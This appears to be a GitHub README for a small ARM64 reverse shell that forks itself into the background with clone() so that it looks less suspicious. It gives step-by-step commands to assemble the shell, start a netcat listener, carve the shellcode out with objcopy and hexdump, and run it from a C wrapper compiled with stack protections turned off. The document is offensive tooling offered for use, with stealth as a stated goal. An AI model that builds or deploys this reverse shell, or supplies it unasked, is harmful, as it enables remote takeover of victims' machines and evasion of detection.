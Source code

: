 # ARM Reverse Shell + `clone` (similar to `fork()`)
ARM AARCH64 Reverse Shell.
![image](https://github.com/0xXyc/ARM-Reverse-Shell/assets/42036798/ed56e21b-a27d-40a6-80c7-c14df6705c70)

## Capabilities
A small, stealthy, ARM64 reverse shell that utilizes `clone()`, similar to `fork()`, in order to spawn a child process and run in the background. Ultimately to look less suspicious.

# Compiling 🛠️
## Linux/AARCH64 as a guest OS on a MAC or other ARM-based device
`as arm-revshell.s -o arm-revshell+clone.o && ld -N arm-revshell+clone.o -o arm-revshell`

### Begin a Netcat Listener 
`nc -lnvp 1337`

### Execute

Then, run `./arm-revshell+clone` to execute.

## x86-64 host OS, but you want to run/compile for AARCH64
`aarch-linux-gnu-as arm-revshell+clone.s -o arm-revshell+clone.o && aarch-linux-gnu-ld -N arm-revshell+clone.o -o arm-revshell+clone`

### Begin a Netcat Listener
`nc -lnvp 1337`

### Execute
Then, run `qemu-aarch64 ./arm-revshell+clone` to execute.`

# ARM-Shellcode 🐚
## Utilizing the Shellcode "Wrapper"
This is to show you that we can achieve the same cyber result, just in a different executable format. It also goes to show how easily it is to "fit" shellcode into places.

**First, we must use `objcopy` to save the binary object to a `.bin` file so we can convert it into an easily copiable format:**
`objcopy -O binary arm-revshell+clone arm-revshell+clone.bin`

**Then, we need to utilize `hexdump` to "carve" out the shellcode from the binary object:**
`hexdump -v -e '"\\""x" 1/1 "%02x" ""' arm-revshell+clone.bin > shellcode.txt`

Lastly, we need to copy the contents of `shellcode.txt` into the `shellcode[]` buffer, within the `shellcode-exec.c` file.

### Compile the "Wrapper"
`gcc shellcode-exec.c -o shellcode-exec -z execstack -fno-stack-protector`

## Reverse Shell Time!!!
We can now easily call our shellcode within a C program.

**Start a Netcat Listener:**
`nc -lnvp 1337`

**Execute the program:**
`./shellcode-exec`

**CONGRATS, SHELLCODE EXECUTED! ENJOY!**


